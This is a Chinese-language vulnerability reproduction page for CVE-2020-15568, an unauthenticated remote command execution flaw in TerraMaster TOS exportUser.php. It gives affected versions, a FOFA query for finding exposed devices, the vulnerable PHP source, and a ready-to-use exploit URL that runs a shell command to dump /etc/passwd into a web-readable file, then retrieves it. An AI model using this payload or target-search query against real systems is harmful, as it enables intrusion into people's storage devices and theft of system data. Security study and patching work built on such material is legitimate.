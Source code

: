# TerraMaster TOS exportUser.php 远程命令执行 CVE-2020-15568

## 漏洞描述

TerraMaster TOS exportUser.php 文件中存在远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.1.24

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

出现漏洞的文件 ***exportUser.php***

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

在其他文件的代码检查期间，也发现有一种方法可以利用TOS软件中预先存在的类来利用此问题。
位于**include/class/application.class.php**中的PHP类是在运行TOS软件的设备上执行命令的最佳人选。

由于*exportUser.php*没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为HTTP GET参数来实现代码执行。

```
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>pq.txt
```

返回200后再次访问

````
http://xxx.xxx.xxx.xxx/include/pq.txt
````

![](http://wikioss.peiqi.tech/vuln/tm-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)